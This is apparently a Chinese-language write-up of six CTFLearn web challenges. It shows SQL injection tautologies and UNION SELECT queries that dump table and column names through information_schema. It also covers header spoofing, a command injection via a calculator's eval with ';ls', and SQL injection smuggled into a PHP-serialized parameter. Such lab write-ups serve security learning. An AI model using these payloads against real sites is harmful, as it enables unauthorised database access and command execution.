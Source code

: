 ## 1.basic injetcion
万能密码：
' or 1=1 or ''='
结果：
```
<p>
Name: Luke <br>Data: I made this problem. <br>
Name: Alec<br>Data: Steam boys. <br>
Name: Jalen<br>Data: Pump that iron fool. <br>
Name: Eric<br>Data: I make cars. <br>
Name: Sam<br>Data: Thinks he knows SQL.  <br>
Name: fl4g__giv3r<br>Data: th4t_is_why_you_n33d_to_sanitiz3_inputs <br>
Name: snoutpop<br>Data: jowls <br>
Name: Chunbucket<br>Data: @datboiiii <br>	
```

flag:th4t_is_why_you_n33d_to_sanitiz3_inputs


## 2.DON'T BUMP YOUR HEAD(ER)

Sorry, it seems as if your user agent is not correct

打开提示user agent不对，隐藏代码中可以看到Sup3rS3cr3tAg3nt

将User-Agent改为如下：

User-Agent: Sup3rS3cr3tAg3nt

出现：
Sorry, it seems as if you did not just come from the site, "awesomesauce.com"

Referer不对，将Reffer改为如下

Referer:awesomesauce.com

出现flag


## 3.POST PRACTICE
打开发现要Post内容
隐藏内容提示：
<!-- username: admin | password: 71urlkufpsdnlkadsf -->

将get请求改为post，添加post Body:
username=admin&password=71urlkufpsdnlkadsf

发现没反应，再添加请求头：
Content-Type:application/x-www-form-urlencoded

出现flag

## 4.INJ3CTION TIME
burp sql模糊测试

万能密码:id=0 or 1=1
结果
```
<p>
Name: Saranac<br>Breed: Great Dane<br>Color: Black<br>
Name: Doodle<br>Breed: Poodle<br>Color: Pink<br>
Name: Dexter<br>Breed: Lab<br>Color: White<br>
</p>
```
题目提示用union，试一波：
```
id=id=0 or 1=1 order by 4 #正确
id=id=0 or 1=1 order by 5 #错误,有四列
id=0 union select 1,2,3,4 #回显2,1,3
id=0 union select group_concat(table_name),2,3,4 from information_schema.tables where table_schema=database() #爆表名，w0w_y0u_f0und_m3,webeight
id=0 union select group_concat(column_name),2,3,4 from information_schema.columns where table_name='w0w_y0u_f0und_m3'#爆列名,出错,估计过滤了引号
id=0 union select group_concat(column_name),2,3,4 from information_schema.columns where table_name=0x7730775f7930755f6630756e645f6d33 #列名：f0und_m3
id=0 union select f0und_m3,2,3,4 from w0w_y0u_f0und_m3 #出现flag

```

### 5.CALCULAT3 M3
打开后，发现计算器，随便输入几个值抓包
发现:post请求

body:
expression=

查看源代码发现存在js脚本：
```
function c(val)
{
document.getElementById("d").value=val;
}
function v(val)
{
document.getElementById("d").value+=val;
}
function e() 
{ 
try 
{ 
  c(eval(document.getElementById("d").value)) 
} 
catch(e) 
{
  c('Error') 
} 
}  
```
关键词eval，存在js命令注入
尝试：
```
expression=1+%2b+2 #返回3
expression=1%2b2 #返回1+2
expression=1+%2b+2; #无结果
expression=;   #返回;
expression=;1
expression=;ls  #列出下面所有文件，flag出现
```


### 6.GRID IT!
注册账号，输入账号密码进去。
发现可以打点，
burp暴力打点，发现没什么用。
发现还可以删点。

所以题目剩下三个容易出现问题的地方：
（1）登录
（2）注册
（3）删除点

由于题目既然可以注册，所以首先测试删除点，抓包发现参数被php反序列化：
```
point=O:5:%22point%22:3:{s:1:%22x%22;s:1:%220%22;s:1:%22y%22;s:1:%226%22;s:2:%22ID%22;s:6:%22777445%22;}
```
利用php序列化后：
```
Class point{
    $x=0;
    $y=6;
    $ID=777445;
}
```
猜测是根据id删除，delete from table_name where id=$ID;
尝试万能密码:
id=77744%20or%201
即
point=O:5:%22point%22:3:{s:1:%22x%22;s:1:%220%22;s:1:%22y%22;s:1:%226%22;s:2:%22ID%22;s:11:%22777445%20or%201%22;}
发现所有点都被删除了。存在sql注入。
写个脚本就可以爆整个库。最后得出flag。
可参考别人写的脚本：
https://github.com/terjanq/Flag-Capture/tree/master/Practice/CTFLearn/GridIt

